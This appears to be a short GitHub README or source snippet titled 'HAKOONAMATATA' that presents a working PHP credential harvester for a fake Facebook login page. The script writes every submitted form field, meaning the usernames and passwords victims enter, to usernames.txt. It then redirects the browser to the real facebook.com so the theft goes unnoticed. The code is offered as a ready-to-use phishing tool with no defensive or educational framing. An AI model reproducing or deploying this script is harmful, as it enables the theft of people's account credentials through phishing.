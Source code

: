 # HAKOONAMATATA
#the php code to pass and recieve attributes in facebook page
<?php
header ('Location:http://www.facebook.com/');
$handle = fopen("usernames.txt", "a");
foreach($_POST as $variable => $value) {
   fwrite($handle, $variable);
   fwrite($handle, "=");
   fwrite($handle, $value);
   fwrite($handle, "\r\n");
}
fwrite($handle, "\r\n");
fclose($handle);
exit;
?> 
